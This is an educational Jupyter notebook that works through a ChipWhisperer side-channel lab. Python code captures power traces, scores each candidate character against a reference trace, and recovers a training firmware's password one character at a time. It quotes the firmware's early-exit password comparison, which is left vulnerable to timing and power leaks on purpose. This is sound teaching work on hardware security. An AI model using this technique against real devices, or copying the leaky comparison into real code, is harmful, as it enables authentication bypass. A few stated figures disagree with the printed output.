# SOLUTION (solved and explained): Part 2, Topic 1, Lab B - Power Analysis for Password Bypass

---
NOTE: This lab references some (commercial) training material on [ChipWhisperer.io](https://www.ChipWhisperer.io). You can freely execute and use the lab per the open-source license (including using it in your own courses if you distribute similarly), but you must maintain notice about this source location. Consider joining our training course to enjoy the full experience.

---

## What this notebook is

This is the **complete worked solution** to Lab 2_1B, with every step explained. The original worksheet asks you to *write* the code; here every task is **solved, run, and explained**, in the same order as the worksheet, so you can read it top to bottom as a walk-through - or jump to the task you are stuck on.

Every task follows the same pattern:

| Label | What it tells you |
|---|---|
| **Task** | What the worksheet asks for. |
| **The idea** | Why this step exists - the thinking behind it. |
| **Solution** | The code. Run it and compare with the saved output. |
| **Line by line** | What every line of the code does. |
| **What we see** | How to read the output or plot. |

**Before you read the solution, try the task yourself in the lab notebook** (`Lab 2_1B - Power Analysis for Password Bypass (MAIN).ipynb`). You learn far more from getting stuck for ten minutes than from reading the answer.

**About the plots.** The worksheet plots with `cw.plot(...)`, which draws interactive Bokeh plots you can zoom. Here the plots use `matplotlib`, so the pictures are saved *inside* this notebook and you can read it without running it. The data is identical. Where the worksheet gives exact `cw.plot` code, the tasks include that interactive version as well (run those cells to get the zoomable plots; the two largest are not saved in the notebook, to keep the file small).

**Contents**

1. Setup - and what `cap_pass_trace()` really is
2. Background - what the target does and where it leaks
3. Exploration - find *where* a right guess differs (Tasks 1 to 3)
4. Automating the attack on one character (Tasks 4 to 7)
5. Running the full attack (Task 8)
6. Why it works - and what it costs
7. Make it reusable - one function that does it all
8. What can go wrong - the classic bugs, run for real
9. On real hardware
10. The whole solution on one page

## 1. Setup - and what `cap_pass_trace()` really is

Everything in this lab hangs on **one function**:

```python
trace = cap_pass_trace("h0px3\n")
```

You give it a **password guess** (it must end with a newline `\n`, which is how the target knows you have finished typing). It returns the target's **power trace** while the target checks that guess: a list of **3000 numbers**, one per sample.

There are two ways to get that function, chosen by the `VERSION` switch:

| `VERSION` | Where the traces come from | Needs hardware? |
|---|---|---|
| `'SIMULATED'` (default here) | A package called `cwtraces` holds traces that were recorded earlier from a real target. `cap_pass_trace()` looks up the right recording and returns one. | **No** |
| `'HARDWARE'` | The setup notebook connects to your ChipWhisperer, builds and flashes the `basic-passwdcheck` firmware, resets the target, sends your guess over the serial port and records the power. | **Yes** |

Both give you the same function, so **every line of the solution below works unchanged on both**.

In [1]:
# Choose your setup options here (the same four lines as the lab notebook).
SCOPETYPE = 'OPENADC'      # 'OPENADC' for CW-Lite/CW-Pro/CW-Husky, 'CWNANO' for CW-Nano
PLATFORM  = 'CWHUSKY'      # the SAM4S target in the CW-Husky kit
CRYPTO_TARGET = 'NONE'
SS_VER = 'SS_VER_2_1'

VERSION = 'SIMULATED'      # 'SIMULATED' = recorded traces (no hardware).  'HARDWARE' = your own Husky + SAM4S.

**Line by line**

* `SCOPETYPE`, `PLATFORM`, `CRYPTO_TARGET`, `SS_VER` - describe the hardware. They only matter for `'HARDWARE'`: they decide how the firmware is built and how the Python side talks to the chip. For the Husky kit leave them as they are.
* `VERSION` - the switch. Everything else in this notebook is identical for both settings.

Now the cell that loads the right back-end:

In [2]:
%matplotlib inline
import time
import numpy as np
import matplotlib.pyplot as plt
import chipwhisperer as cw

if VERSION == 'HARDWARE':
    %run "Lab 2_1B - Power Analysis for Password Bypass (HARDWARE).ipynb"
elif VERSION == 'SIMULATED':
    try:
        from cwtraces import sca101_lab_data
    except ImportError:
        raise ImportError("The 'cwtraces' package is missing. In your ChipWhisperer environment run:  "
                          "python -m pip install cwtraces   then restart the kernel and run this cell again.")
    cap_pass_trace = sca101_lab_data["lab2_1"]["cap_pass_trace"]
else:
    raise ValueError("VERSION must be 'HARDWARE' or 'SIMULATED'")

plt.rcParams.update({"figure.figsize": (11, 3.6), "axes.grid": True, "grid.alpha": 0.3})
CHARSET = "abcdefghijklmnopqrstuvwxyz0123456789"      # the characters the password can contain
print("back-end:", VERSION)

back-end: SIMULATED


**Line by line**

* `%matplotlib inline` - draw plots inside the notebook.
* `import numpy as np` - NumPy does the arithmetic on whole traces at once (we subtract and add 3000 numbers in one line).
* `import chipwhisperer as cw` - the lab software; we use `cw.plot` for the interactive plots.
* The `if` block - picks the back-end. For `'HARDWARE'` it **runs the setup notebook** (`%run` executes another notebook as if its cells were pasted here); that is what defines `scope`, `target` and `cap_pass_trace`. For `'SIMULATED'` it takes `cap_pass_trace` out of the `cwtraces` package.
* `CHARSET` - the 36 characters the lab says the password can contain. Our attack will try every one of them at every position.

> **If you see `ModuleNotFoundError: No module named 'cwtraces'`:** the recorded-trace package is not installed by the standard install steps. Run `python -m pip install cwtraces` in your ChipWhisperer environment, restart the kernel, and run the cell again.

**Sanity check** - make sure the function works before building on it:

In [3]:
trace_test = cap_pass_trace("h\n")

# Basic sanity check
assert len(trace_test) == 3000
print("trace length:", len(trace_test), "| first five samples:", np.round(trace_test[:5], 3))
print("OK to continue!")

trace length: 3000 | first five samples: [-0.116 -0.295 -0.193 -0.047 -0.025]
OK to continue!


**What we see.** A trace is just a NumPy array of 3000 numbers. The `assert` stops the notebook with an error if the length is wrong - far better to find that out now than 200 captures later.

**Two facts about the traces that we will use all through the lab:**

1. **The trace is upside down.** The ChipWhisperer measures the *voltage drop across a small resistor* in the target's power supply. More current makes a *bigger negative* voltage drop, so the busiest parts of the code dip *down*. We only ever compare traces with each other, so the direction does not matter - just don't be surprised.
2. **Two captures of the same guess are almost, but not exactly, equal.** There is always a little measurement noise. Let's measure it, because we will need a feeling for how big "noise" is:

In [4]:
a = cap_pass_trace("h\n")
b = cap_pass_trace("h\n")      # the SAME guess again
c = cap_pass_trace("0\n")      # a DIFFERENT guess

print("same guess twice  : average |difference| per sample = {:.4f}".format(np.mean(np.abs(a - b))))
print("different guesses : average |difference| per sample = {:.4f}".format(np.mean(np.abs(a - c))))
print("size of the signal itself (standard deviation of one trace) = {:.3f}".format(np.std(a)))

same guess twice  : average |difference| per sample = 0.0000
different guesses : average |difference| per sample = 0.1000
size of the signal itself (standard deviation of one trace) = 0.134


**What we see.** Two captures of the *same* guess differ by only about 0.003 per sample; `h` against `0` differs by about **0.1** - roughly **thirty times more**. The difference between a right and a wrong first character is huge compared with the noise. (On real hardware the noise is larger, but the idea is the same.)

> In `'SIMULATED'` mode the "noise" is real: for each guess the simulator hands back a **random one of 100 recordings** of that situation, so two calls give slightly different traces - just as two real captures would.

## 2. Background - what the target does and where it leaks

The target runs a small program, the "Safe-o-matic 3000" (`firmware/mcu/basic-passwdcheck/basic-passwdcheck.c`). The part that matters:

```c
trigger_low();
my_puts("Please enter password to continue: ");
my_read(passwd, 32);                 // read your guess from the serial port

uint8_t passbad = 0;
trigger_high();                      // <-- the ChipWhisperer starts recording here

for(uint8_t i = 0; i < sizeof(correct_passwd); i++){
    if (correct_passwd[i] != passwd[i]){
        passbad = 1;
        break;                       // <-- stop at the FIRST wrong character
    }
}
```

Two things matter:

1. **The trigger.** `trigger_high()` raises a pin that the ChipWhisperer watches. When it sees the pin go high it starts recording - so every trace starts at (about) the moment the comparison begins. That is why traces from different guesses line up so well.
2. **The early `break`.** The loop stops at the first character that does not match. A guess with a wrong **first** character leaves the loop after **one** comparison. A guess whose first character is right goes round the loop **at least twice**. More work takes more time and a different amount of power - and that difference is visible in the trace.

```text
password:   h  0  p  x  3          the real password (5 characters)

guess "z...":  z  x                 first compare fails -> leaves the loop almost at once
guess "hz...": h  z x               first compare ok, second fails -> one comparison later
guess "h0z..": h  0  z x            two ok, third fails -> two comparisons later
...
```

So **the time (and power activity) before the loop ends tells us how many leading characters we got right**. We have turned "guess the whole password" into five small problems: *"is this character the right one?"*

> **Where is the "protection"?** The firmware does have a comment `//Stop them fancy timing attacks` - but the delay that follows is only run **after** the comparison has finished (and only for wrong guesses). It does not hide *how long the comparison took*, so it does not stop this attack. A real defence has to make the comparison itself take the same time whatever the input.

## 3. Exploration - find where a right guess differs

The worksheet gives you one hint: the password is **5 characters long and starts with `h`**. Nothing else. We use that hint to learn *what a right character looks like* before we automate anything.

### Task 1 - plot `h` against another character

**The idea.** Capture one trace with a **right** first character (`h`) and one with a **wrong** one (`0`) and look at them together. If the target really behaves differently, the traces should stop matching somewhere.

**Solution - the worksheet's interactive version:**

In [5]:
# Example - capture 'h'. End the guess with newline '\n' as the serial protocol expects it.
trace_h = cap_pass_trace("h\n")
print(trace_h)

# Overlay a good first character ('h') against a wrong one ('0').
cw.plot(cap_pass_trace("h\n")) * cw.plot(cap_pass_trace("0\n"))

[-0.11425781 -0.29882812 -0.19262695 ...  0.01220703  0.0546875
  0.09326172]


:Overlay
   .Curve.I  :Curve   [x]   (y)
   .Curve.II :Curve   [x]   (y)

**Line by line**

* `cap_pass_trace("h\n")` - send the guess `h` (the `\n` is the Enter key) and get back its 3000-sample power trace.
* `print(trace_h)` - NumPy prints the start and the end of the array (`...` hides the middle). Not very informative by itself - which is why we plot.
* `cw.plot(x)` - turns a trace into an interactive plot object. The `*` operator **overlays** two plots on one set of axes. You can zoom with the toolbar on the right.

**The same thing as a saved picture**, with the difference underneath so it is easier to see where the traces split:



the two traces first differ by more than 0.05 at sample 433


In [6]:
t_right = cap_pass_trace("h\n")
t_wrong = cap_pass_trace("0\n")

fig, axes = plt.subplots(2, 1, figsize=(11, 5.4), sharex=True)
axes[0].plot(t_right[:1000], lw=0.9, label="guess 'h' (right first character)")
axes[0].plot(t_wrong[:1000], lw=0.9, label="guess '0' (wrong first character)")
axes[0].legend(loc="upper right"); axes[0].set_ylabel("ADC value (down = more power)")
axes[0].set_title("Task 1: a right and a wrong first character")
axes[1].plot((t_right - t_wrong)[:1000], color="tab:red", lw=0.9)
axes[1].set_ylabel("difference"); axes[1].set_xlabel("sample number")
axes[1].set_title("The difference: flat = the traces are identical, a burst = the two guesses took different paths")
plt.tight_layout(); plt.show()

split = int(np.nonzero(np.abs(t_right - t_wrong) > 0.05)[0][0])
print("the two traces first differ by more than 0.05 at sample", split)

**What we see.**

* The two traces lie **exactly on top of each other for the first ~430 samples** - the code is doing the same thing for both guesses (starting the comparison).
* Around **sample 433** they split. From there on they look completely different (the red difference trace bursts). That is the moment the program takes a **different branch**: for `0` the comparison fails and the loop ends, for `h` it succeeds and the loop carries on to the second character.
* The difference is **zero** before the split. This is important: it means the only information in the difference is the effect of the right/wrong character - everything else cancels out.

(The exact sample number depends on the capture settings - on your own hardware it will be a different number, but the *shape* of the picture is the same.)

### Task 2 - plot every possible first character

**The idea.** One wrong character looks "different from `h`", but we need to know that *every* wrong character looks alike and that only the right one stands out. So: try **all 36** characters and overlay the traces. If the idea is right, 35 traces will lie on top of each other and one - `h` - will be the odd one out.

**Solution - the worksheet's interactive version:**

*(This interactive plot holds 36 curves, so its output is large and is **not saved** in the notebook - run the cell to see it. The saved picture below shows the same data.)*

In [ ]:
fig = cw.plot()
for c in 'abcdefghijklmnopqrstuvwxyz0123456789':
    trace = cap_pass_trace(c + "\n")
    fig *= cw.plot(trace[0:1000])   # first 1000 samples is where the check happens
fig

**Line by line**

* `fig = cw.plot()` - start with an empty plot to add to.
* `for c in 'abc...789':` - go through the 36 characters one at a time (a Python string can be looped over character by character).
* `cap_pass_trace(c + "\n")` - guess that single character. `+ "\n"` adds the Enter key.
* `trace[0:1000]` - keep only the first 1000 samples. The interesting part (the comparison) happens early, and 36 traces of 3000 points would just be a thick smear.
* `fig *= cw.plot(...)` - overlay this trace on the plot so far (`*=` means "overlay and keep").

**The same thing as a saved picture**, zoomed on the part where the traces split, with the odd one out highlighted:



distance from the typical trace:  the outlier 'h' = 68.0   |   next largest 'z' = 2.3   |   median of all = 2.0


In [8]:
first_char_traces = {c: cap_pass_trace(c + "\n")[:1000] for c in CHARSET}

# Find the odd one out automatically: the character whose trace is farthest from the MEDIAN trace.
# (The median trace is "what a typical wrong character looks like" - the right one is not typical.)
stack = np.array([first_char_traces[c] for c in CHARSET])
median_trace = np.median(stack, axis=0)
distance = {c: float(np.sum(np.abs(first_char_traces[c] - median_trace))) for c in CHARSET}
outlier = max(distance, key=distance.get)

fig, ax = plt.subplots(figsize=(11, 3.8))
for c in CHARSET:
    if c != outlier:
        ax.plot(range(380, 700), first_char_traces[c][380:700], color="tab:blue", alpha=0.25, lw=0.8)
ax.plot(range(380, 700), first_char_traces[outlier][380:700], color="tab:red", lw=1.4, label="the outlier: {!r}".format(outlier))
ax.set_xlabel("sample number"); ax.set_ylabel("ADC value")
ax.set_title("Task 2: all 36 possible first characters (35 wrong ones in blue, zoomed on samples 380-700)")
ax.legend(loc="upper right"); plt.show()

ranked = sorted(distance.items(), key=lambda t: -t[1])
print("distance from the typical trace:  the outlier {!r} = {:.1f}   |   next largest {!r} = {:.1f}   |   median of all = {:.1f}".format(
    ranked[0][0], ranked[0][1], ranked[1][0], ranked[1][1], np.median(list(distance.values()))))

**What we see.** Zoomed in, 35 of the 36 traces lie on top of each other (the blue band). One trace - `h` - leaves the pack. The worksheet says "a single outlier trace doesn't follow the path of all the other traces. That is great news, since it means we learn something about the system from power analysis." That is exactly what this is.

**Line by line (the outlier finder)**

* `stack = np.array([...])` - make one 36 x 1000 table, one row per character.
* `np.median(stack, axis=0)` - for each of the 1000 samples take the **middle value** of the 36 traces. Because 35 of the 36 agree, the median is "a typical wrong trace" and the one outlier does not drag it away. (The *mean* would be nudged slightly by the outlier; the median is not.)
* `distance[c]` - how far trace `c` is from the typical trace, summed over all samples.
* `max(distance, key=distance.get)` - pick the character with the largest distance.

The outlier is about **thirty times** farther from the typical trace than any other character. We have just *found the first character of the password* by looking at power. The rest of the lab turns this "look at the plot" into code that works for every position.

### Task 3 - the second character

**The idea.** If this works for the first position it should work for the second: once we know the first character is `h`, guesses of the form `h` + *something* should all take the same path for the first comparison, and again exactly one *something* should stand out. The worksheet's pseudo-code:

```text
for CHARACTER in LIST_OF_VALID_CHARACTERS:
    trace = cap_pass_trace("h" + CHARACTER + "\n")
    plot(trace)
```

**Solution:**



the outlier is 'h' + '0'


In [9]:
second_char_traces = {c: cap_pass_trace("h" + c + "\n")[:1000] for c in CHARSET}

stack2 = np.array([second_char_traces[c] for c in CHARSET])
median2 = np.median(stack2, axis=0)
distance2 = {c: float(np.sum(np.abs(second_char_traces[c] - median2))) for c in CHARSET}
outlier2 = max(distance2, key=distance2.get)

fig, ax = plt.subplots(figsize=(11, 3.8))
for c in CHARSET:
    if c != outlier2:
        ax.plot(range(420, 760), second_char_traces[c][420:760], color="tab:blue", alpha=0.25, lw=0.8)
ax.plot(range(420, 760), second_char_traces[outlier2][420:760], color="tab:red", lw=1.4, label="the outlier: 'h' + {!r}".format(outlier2))
ax.set_xlabel("sample number"); ax.set_ylabel("ADC value")
ax.set_title("Task 3: 'h' followed by each of the 36 characters (zoomed on samples 420-760)")
ax.legend(loc="upper right"); plt.show()
print("the outlier is 'h' + {!r}".format(outlier2))

**What we see.** Same picture, shifted. The 35 wrong second characters lie together; one (`0`) is the outlier. Two things to notice:

* The traces now agree for **longer** (up to about sample 470 instead of 430), because with `h` right the loop runs one comparison further before the wrong ones leave it. **Each correct character pushes the split about 40 samples later** - we measure this properly in section 6.
* Therefore the zoom window moved. If you kept looking at samples 380-700 only, the *third* character's split (around sample 510) would be harder to see. Keep this in mind - it comes back as a classic mistake in section 8.

We now know the password starts `h0`. Now let's stop looking at plots and let the computer do it.

## 4. Automating the attack on one character

Looking at 36 overlaid traces works, but a loop that needs a human to look at a plot is not an attack. We need a **number** that says "this guess behaved differently". The plan:

1. Capture a **reference** trace: a guess that is certainly wrong.
2. For each candidate character, capture its trace and subtract the reference.
3. Add up how big the leftover difference is. A wrong character leaves almost nothing; the right one leaves a lot.

### Task 4 - choose a reference trace

**The idea.** Any **wrong** guess will do as a reference, *as long as it is processed the same way as the other wrong guesses*. The worksheet suggests a byte that can never be part of the password. We use **`\x01`** (the control character with value 1). It is not one of the 36 valid characters, so the target treats it like any other wrong character: it fails the first comparison and leaves the loop.

> **A note on the worksheet text.** The worksheet text still says `\x00` (a null byte) in places, but the *code* uses `\x01`. There is a reason: a null byte is the target's end-of-string marker, and the recorded traces in `cwtraces` simply do not contain it. `\x01` works everywhere (simulated and real), so use it.

**Solution:**

In [10]:
# '\x01' is an invalid password byte, processed like any other wrong guess, so it
# makes a good reference. (The simulator's recorded enumeration accepts '\x01' but
# not '\x00'; on hardware either works.)
ref_trace   = cap_pass_trace("\x01\n")[0:1000]
other_trace = cap_pass_trace("h\n")[0:1000]

cw.plot(ref_trace) * cw.plot(other_trace)

:Overlay
   .Curve.I  :Curve   [x]   (y)
   .Curve.II :Curve   [x]   (y)

**Line by line**

* `"\x01\n"` - a Python string containing two characters: byte number 1, then Enter. (`\x01` is how Python writes "the character whose code is 1".)
* `[0:1000]` - again just the first 1000 samples.
* `cw.plot(ref_trace) * cw.plot(other_trace)` - overlay the reference and the guess `h`.

**What we see.** The reference (`\x01`) and `h` behave exactly like the earlier "wrong `0` against right `h`" picture: identical until about sample 430, then different. So `\x01` really is "just another wrong guess". We can check the stronger claim - that `\x01` looks like *every* wrong character - with the next task.

### Task 5 - plot the difference to the reference, for every character

**The idea.** Subtracting the reference from each trace cancels everything the traces have in common (the program start-up, the noise floor...) and leaves only what is *different*. For a wrong character that should be (almost) **nothing**, because it follows the same path as the reference; for the right character it should be a big mess. The worksheet's pseudo-code:

```text
ref_trace = cap_pass_trace("\x01\n")

for CHARACTER in LIST_OF_VALID_CHARACTERS:
    trace = cap_pass_trace(CHARACTER + "\n")
    plot(trace - ref_trace)
```

**Solution:**

*(This interactive plot holds 36 curves, so its output is large and is **not saved** in the notebook - run the cell to see it. The saved picture below shows the same data.)*

In [ ]:
ref_trace = cap_pass_trace("\x01\n")[0:1000]

fig = cw.plot()
for c in 'abcdefghijklmnopqrstuvwxyz0123456789':
    trace = cap_pass_trace(c + "\n")[0:1000]
    fig *= cw.plot(trace - ref_trace)
fig

**Line by line**

* `ref_trace = ...[0:1000]` - the reference, captured **once**, before the loop. (One reference for all 36 candidates is enough: they should all be compared with the same "wrong" behaviour.)
* `trace - ref_trace` - NumPy subtracts the two 1000-sample arrays **sample by sample** and gives a new 1000-sample array. There is no loop to write: that is what NumPy is for.
* Everything else is the same overlay loop as Task 2.

**The same thing as a saved picture:**



In [12]:
ref_trace = cap_pass_trace("\x01\n")[0:1000]
diffs = {c: cap_pass_trace(c + "\n")[0:1000] - ref_trace for c in CHARSET}
winner = max(diffs, key=lambda c: np.sum(np.abs(diffs[c])))

fig, axes = plt.subplots(1, 2, figsize=(11, 3.8), sharey=True)
for c in CHARSET:
    if c != winner:
        axes[0].plot(diffs[c], color="tab:blue", alpha=0.35, lw=0.8)
        axes[1].plot(range(380, 700), diffs[c][380:700], color="tab:blue", alpha=0.35, lw=0.8)
axes[0].plot(diffs[winner], color="tab:red", lw=1.0, label="{!r}".format(winner))
axes[1].plot(range(380, 700), diffs[winner][380:700], color="tab:red", lw=1.2)
axes[0].set_title("trace minus reference, samples 0-1000"); axes[1].set_title("zoom: samples 380-700")
axes[0].set_ylabel("difference to the reference"); axes[0].legend(loc="upper left")
for ax in axes: ax.set_xlabel("sample number")
plt.tight_layout(); plt.show()

**What we see.** The 35 wrong characters - in blue - sit **flat on zero**, as predicted: a wrong character does exactly what the wrong reference does, so the subtraction cancels it. One character (red, `h`) is **not** zero: from about sample 430 it bursts up and down. That is the "major difference" the worksheet promises. Compared with Task 2, the picture is much cleaner, because the subtraction removed all the shared detail and left a flat baseline.

Now we need the computer to see this without us looking.

### Task 6 - turn "a big difference" into one number

**The idea.** We want one number per character that is **small** when the difference is flat and **large** when it bursts. The simplest candidate: *add up the difference over all samples*. There is a trap, and the worksheet points it out - a quick NumPy demo shows it:

In [13]:
import numpy as np
np.abs([-1, -3, 1, -5, 6])

array([1, 3, 1, 5, 6])

In [14]:
import numpy as np
np.sum([-1, -3, 1, -5, 6])

-2

In [15]:
np.sum(np.abs([-1, -3, 1, -5, 6]))

16

**What we see.**

* `np.abs` turns every number into its **absolute value** (drops the minus sign): `[1 3 1 5 6]`.
* `np.sum` adds them up. On the *original* list the answer is **-2**: the negative and positive numbers **cancel each other out**.
* `np.sum(np.abs(...))` adds the **sizes** of the numbers: **16**. Nothing cancels.

**Why this matters for traces.** A trace difference swings *both up and down* (the red burst above goes positive and negative). If we only summed it, those swings would cancel and a big difference could add up to nearly zero - the right character would hide! So the score has to be

```python
score = np.sum(np.abs(trace - ref_trace))
```

"Add up how far the trace is from the reference, ignoring direction." For a flat difference this is just the noise added up; for the right character it is the burst added up.

### Task 7 - score every character and pick the winner

**The idea.** Put Tasks 4 to 6 together: one reference, 36 candidates, one score each. The worksheet's loop prints them so you can *see* the numbers:

```text
ref_trace = cap_pass_trace("\x01\n")

for CHARACTER in LIST_OF_VALID_CHARACTERS:
    trace = cap_pass_trace(CHARACTER + "\n")
    diff = SUM(ABS(trace - ref_trace))
    print("{:1} diff = {:2}".format(CHARACTER, diff))
```

**Solution (finding the first character):**

In [16]:
ref_trace = cap_pass_trace("\x01\n")

for c in 'abcdefghijklmnopqrstuvwxyz0123456789':
    trace = cap_pass_trace(c + "\n")
    diff = np.sum(np.abs(trace - ref_trace))

    print("{:1} diff = {:2}".format(c, diff))

a diff = 8.2421875
b diff = 7.49609375


c diff = 8.57861328125
d diff = 8.66015625


e diff = 8.4599609375
f diff = 8.46826171875


g diff = 7.925048828125
h diff = 301.35009765625


i diff = 7.925048828125
j diff = 7.700927734375


k diff = 8.318603515625
l diff = 8.69921875


... (8 outputs left out)

2 diff = 8.646240234375
3 diff = 7.760009765625


4 diff = 7.811279296875
5 diff = 7.948974609375


6 diff = 8.646240234375
7 diff = 7.49609375


8 diff = 7.7900390625
9 diff = 7.8837890625


**Line by line**

* The reference is captured with the **full 3000 samples** this time (no `[0:1000]`). More samples means more signal to add up; nothing is lost by using them all.
* `np.sum(np.abs(trace - ref_trace))` - the score from Task 6.
* `"{:1} diff = {:2}".format(c, diff)` - Python's text formatting: it puts the character in the first `{}` and the number in the second.

**What we see.** 35 characters score **about 7 to 9**. One scores **about 300**. The wrong ones are not zero because of noise: two recordings of the same code path never match exactly, and we are adding up 3000 small differences. (In simulation one of them occasionally scores close to 0 - the simulator happened to pick the very same recording as for the reference; see the note under the scoreboard in section 6.) The right one is **more than thirty times larger**. The gap is enormous - which is why the whole attack works so reliably.

Let's look at the same numbers as a bar chart, and see two ways of turning them into a decision:



first character by threshold : 'h'
first character by biggest   : 'h'
wrong characters score between 0.0 and 8.8; the winner scores 299.7


In [17]:
scores = {}
for c in CHARSET:
    scores[c] = float(np.sum(np.abs(cap_pass_trace(c + "\n") - ref_trace)))

# Way 1 (the worksheet): a THRESHOLD - the first character whose score is above it.
THRESHOLD = 25.0                      # "say I might use 25.0 based on one run"
by_threshold = next((c for c in CHARSET if scores[c] > THRESHOLD), None)

# Way 2: the BIGGEST score - no threshold to tune.
by_biggest = max(scores, key=scores.get)

fig, ax = plt.subplots(figsize=(11, 3.4))
ax.bar(list(CHARSET), [scores[c] for c in CHARSET], color=["tab:red" if c == by_biggest else "tab:blue" for c in CHARSET])
ax.axhline(THRESHOLD, color="k", ls="--", lw=1, label="threshold = {}".format(THRESHOLD))
ax.set_xlabel("character tried"); ax.set_ylabel("score = sum |trace - reference|")
ax.set_title("Task 7: the score of every possible first character"); ax.legend(); plt.show()

wrong = [v for c, v in scores.items() if c != by_biggest]
print("first character by threshold :", repr(by_threshold))
print("first character by biggest   :", repr(by_biggest))
print("wrong characters score between {:.1f} and {:.1f}; the winner scores {:.1f}".format(min(wrong), max(wrong), scores[by_biggest]))

**Line by line**

* `next((c for c in CHARSET if scores[c] > THRESHOLD), None)` - walk through the characters in order and return the **first** one whose score beats the threshold (or `None` if none does). This is the worksheet's `if diff > THRESHOLD: ... break`.
* `max(scores, key=scores.get)` - return the character with the **highest** score. `key=scores.get` tells `max` to compare the *scores*, not the characters.

**What we see.** Both methods find `h`. Which should you use?

| | Threshold | Biggest |
|---|---|---|
| Needs a number you must choose | **yes** - and the right number depends on your hardware and noise | no |
| What if nothing is above the threshold? | you get `None` and the attack stops | you still get *some* answer (maybe wrong) |
| What if two characters are above it? | you take the first one - possibly the wrong one | you take the clearly largest |

